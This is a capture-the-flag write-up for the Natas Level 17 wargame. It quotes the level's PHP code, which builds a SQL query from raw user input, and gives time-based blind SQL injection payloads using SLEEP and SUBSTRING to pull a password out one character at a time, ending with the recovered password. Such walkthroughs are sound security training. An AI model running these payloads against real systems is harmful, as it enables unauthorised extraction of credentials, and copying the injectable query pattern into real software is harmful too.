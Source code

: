 # Natas Level 17
This level deals with time based SQL Injection.

## Quest
We are greeted with a simple webpage
![](./images/Level17.png)

Below is the backend code 
```php
<?

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas17', '<censored>');
    mysql_select_db('natas17', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);      // We get no output whatsoever
    if($res) {
    if(mysql_num_rows($res) > 0) {
        //echo "This user exists.<br>";
    } else {
        //echo "This user doesn't exist.<br>";
    }
    } else {
        //echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>
```

<br/><br/>
## Solution
Reading the Backend code, we can say that we are not presented with any output whatsoever.
So, for now only one thing comes to my mind - <span id=green>Time Based SQL Injection.</span>

<br/>
Our Payload -> `username=natas18" AND SLEEP(10);#`
We recieve a delayed response if username `natas18` exists, which does and so our response comes after 10 seconds
![](./images/Level17_solution.png)

Now we build a little complex query:
  Our Payload -> `username=natas18" AND IF(ASCII('a')=97, SLEEP(10),0);#`
If username `natas18` exists and ascii code of 'a' is 97, return a delayed response. (We get delayed response)
![](./images/Level17.1_solution.png)


So, our Final payload to smuggle passwords is as follow:
    `username=natas18" AND IF(ASCII(SUBSTRING(password,1,1))=97,SLEEP(10),0);#`
![](./images/Level17.2_solution.png)
Above, we found that first character of our password has ascii code 120, i.e. `x`. (using Burp intruder)
Also note that we filter using "_Response recieved_" column, that conveys the time interval b/w request and response.

Burp intruder settings are exactly same as we did in [Level 15](./Level15.md)

Repeat this 32 times, and we have our password. -> xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP
